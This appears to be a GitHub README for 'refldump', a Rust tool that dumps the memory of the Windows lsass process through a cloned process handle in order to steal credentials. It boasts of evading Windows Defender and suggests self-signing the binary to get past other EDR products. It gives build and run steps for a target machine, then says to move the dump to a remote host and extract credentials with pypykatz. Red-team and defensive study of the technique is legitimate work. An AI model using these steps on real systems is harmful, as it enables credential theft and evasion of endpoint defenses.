 **refldump** - <br>A lot of Rust code is taken from https://github.com/postrequest/safetydump. I'd like to thank postrequest for this tool and the whole https://github.com/postrequest/link framework. Both were invaluable in helping me learn Rust and end-point exploitation.
           The additions I made on this version are based on https://github.com/hasherezade/pe-sieve/blob/master/utils/process_reflection.cpp. 
           Basically, we use process reflection to obtain a handle for a cloned lsass process and then call minidumpwritedump with the handle to the cloned process. This is very similar to my other verions that either use PSSCaptureSnapshot or CreateToolHelp32Snapshot, to avoid calling minidumpwritedump with the original process handle.<br>
           <BR>As of writing, this tool is not prevented by Windows Defender on latest Win10 build. *If you have issues with other EDR preventions, try self-signing the executable.* This version is not currently working with Win11. I think I know the problem, so I'll revisit and push a Win11 compatible version at some point.
  
  **usage**: 
  <BR>`git clone https://github.com/Teach2Breach/dev.git`<BR>
  `cd .\dev\rust\lsass\refldump\`
  <Br>compile with Rust:<BR> `cargo build --release`
  <BR>run the binary on target machine:<BR> `.\refldump.exe`
    <BR>
      a randomly named .bin file will be generated with the dump. It is base64 encoded. I recommend you move this file to a remote linux host for decoding as follows:
      <BR>`base64 -d dsaifluk.bin > dump.bin`<BR>
        `pypykatz lsa minidump dump.bin`<BR>
        
            
